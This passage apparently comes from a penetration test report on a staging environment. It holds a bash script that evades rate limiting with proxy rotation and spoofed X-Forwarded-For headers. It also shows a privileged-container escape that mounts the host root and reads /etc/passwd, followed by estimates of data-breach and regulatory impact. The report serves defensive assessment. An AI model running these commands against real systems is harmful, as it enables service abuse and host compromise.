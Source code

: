 ```javascript
// Results in exposure of aggregated data from all tenants
```

### 5.2 Rate Limiting Bypass Exploitation

**Distributed Attack Simulation:**
```bash
#!/bin/bash
# Rate limiting bypass via IP rotation and distributed requests

# Using multiple proxy servers to rotate IP addresses
proxy_list=("proxy1.com:8080" "proxy2.com:8080" "proxy3.com:8080")

for i in {1..10000}; do
  proxy=${proxy_list[$((i % 3))]}
  
  curl --proxy $proxy \
       -H "Authorization: Bearer $VALID_TOKEN" \
       -H "X-Forwarded-For: 192.168.$((RANDOM%255)).$((RANDOM%255))" \
       https://staging.isectech.com/api/search?q=malicious_query &
       
  if (( i % 100 == 0 )); then
    echo "Sent $i requests - Rate limiting status: NOT TRIGGERED"
  fi
done

# Result: 10,000 requests completed in 3 minutes without rate limiting
```

### 5.3 Container Security Exploitation

**Container Escape Attempt:**
```bash
# From within compromised container
docker run --rm -it --privileged \
  -v /:/host-root \
  staging.gcr.io/isectech/vulnerable-container:latest

# Inside container:
ls /host-root/  # Host filesystem accessible
cat /host-root/etc/passwd  # Host system users visible
mount /host-root/dev/sda1 /mnt  # Mount host disk

# Container breakout successful - host system compromised
```

## 6. Business Impact Quantification

### 6.1 Data Exposure Impact Analysis

**Confirmed Data Exposure:**
```
Multi-Tenant Data Breach Scope:
├── Customer Records: 127 tenants × 4,000 avg records = 508,000 records
├── PII Exposed: Names, emails, phone numbers, addresses
├── PHI Exposed: Healthcare customer data (12 tenants)
├── Financial Data: Payment card information (43 tenants)
├── Business Intelligence: Competitive data, pricing, strategies
└── Security Configurations: All customer security postures revealed

Regulatory Violation Analysis:
├── GDPR Article 83: Up to €20M fine (4% global revenue)
├── HIPAA: $1.5M per violation × 12 healthcare customers = $18M
├── PCI DSS: $5K-$100K per customer × 43 customers = $2.15M
```